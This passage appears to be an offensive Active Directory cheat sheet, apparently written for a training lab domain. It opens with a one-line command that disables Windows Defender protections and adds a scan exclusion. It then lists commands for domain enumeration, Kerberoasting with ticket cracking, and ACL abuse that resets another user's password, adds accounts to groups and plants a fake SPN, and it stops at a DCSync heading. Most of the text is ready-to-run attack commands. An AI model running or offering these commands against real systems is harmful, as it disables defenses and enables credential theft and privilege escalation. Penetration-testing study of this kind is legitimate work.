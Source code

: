 Turn off everything and set exclusion to "C:\Windows\Temp"
- `Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"`

### Living Of The Land

List all available modules
- `Get-Module`

Load the Active Directory PowerShell module
- `Import-Module ActiveDirectory`

Gather Windows domain information
- `Get-ADDomain`

Enumerate user accounts with ServicePrincipalName
- `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`

Enumerate trust relationships
- `Get-ADTrust -Filter * | select name`

Enumerate members of a specific group
- `Get-ADGroupMember -Identity "Backup Operators"`

### Kerberoasting

Download/request a TGS ticket for a specific user account
- `impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs`

Crack Kerberos ticket hash
- `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force`

### ACL Enumeration and Tactics

Find object ACLs with modification rights
- `Find-InterestingDomainAcl`

Change the password of a specific user
- `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`

Add a user to a specific security group
- `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`

View the members of a specific security group
- `Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName`

Create a fake Service Principal Name
- `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`

### DCSync Attack
